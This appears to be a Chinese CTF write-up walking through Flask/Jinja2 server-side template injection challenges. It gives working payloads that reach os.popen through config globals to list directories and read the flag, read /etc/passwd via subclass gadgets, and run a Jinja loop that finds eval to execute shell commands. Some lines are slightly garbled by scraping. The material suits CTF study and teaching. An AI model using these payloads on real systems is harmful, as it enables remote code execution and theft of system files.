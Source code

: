 
打开题目，看到还是SSTI漏洞，
首先还是让我们使用flag构造参数，所以就是?flag={{XXXX}},再看了一下config



看了一下，没见什么特殊的东西，题目说了是SSIT漏洞，那么利用漏洞先ls查看一下

/?flag={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27ls%20../%27).read()%20}}
##__class__：用来查看变量所属的类，根据前面的变量形式可以得到其所属的类。
##__init__             初始化类，返回的类型是function
##__globals__[]          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
##os.popen() 方法用于从一个命令打开一个管道。
##open() 方法用于打开一个文件，并返回文件对象

1
2
3
4
5
6
7


看到目录一个个进去看

/?flag={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27ls%20../app/%27).read()%20}}
1


在app目录下看到flag，于是查看flag

/?flag={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27cat%20../app/flag%27).read()%20}}
1


2.Web_python_template_injection


简单探测


{{config.items)()}} 查看系统配置
1


进行文件读取，读取passwd信息

[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
1


执行下面这一段代码

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}         //遍历基类 找到eval函数
    {% if 'eval' in b.keys() %}    //找到了
      {{ b['eval']('__import__("os").popen("ls").read()') }}  //导入cmd 执行popen里的命令 read读出数据
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
1
2
3
4
5
6
7
8